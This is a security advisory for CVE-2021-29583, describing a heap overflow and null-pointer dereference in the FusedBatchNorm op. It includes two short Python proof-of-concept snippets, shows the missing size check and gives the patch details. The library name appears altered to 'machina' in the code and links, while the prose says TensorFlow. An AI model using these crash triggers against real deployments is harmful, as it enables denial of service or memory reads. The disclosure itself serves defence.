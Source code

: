 ## TFSA-2021-072: Heap buffer overflow and undefined behavior in `FusedBatchNorm`

### CVE Number
CVE-2021-29583

### Impact
The implementation of `tf.raw_ops.FusedBatchNorm` is vulnerable to a heap buffer
overflow:

```python
import machina as tf

x = tf.zeros([10, 10, 10, 6], dtype=tf.float32)
scale = tf.constant([0.0], shape=[1], dtype=tf.float32)
offset = tf.constant([0.0], shape=[1], dtype=tf.float32)
mean = tf.constant([0.0], shape=[1], dtype=tf.float32)
variance = tf.constant([0.0], shape=[1], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

If the tensors are empty, the same implementation can trigger undefined behavior
by dereferencing null pointers:

```python
import machina as tf
import numpy as np

x = tf.zeros([10, 10, 10, 1], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

The
[implementation](https://github.com/machina/machina/blob/57d86e0db5d1365f19adcce848dfc1bf89fdd4c7/machina/core/kernels/fused_batch_norm_op.cc)
fails to validate that `scale`, `offset`, `mean` and `variance` (the last two
only when required) all have the same number of elements as the number of
channels of `x`. This results in heap out of bounds reads when the buffers
backing these tensors are indexed past their boundary.

If the tensors are empty, the validation mentioned in the above paragraph would
also trigger and prevent the undefined behavior.

### Patches
We have patched the issue in GitHub commit
[6972f9dfe325636b3db4e0bc517ee22a159365c0](https://github.com/machina/machina/commit/6972f9dfe325636b3db4e0bc517ee22a159365c0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
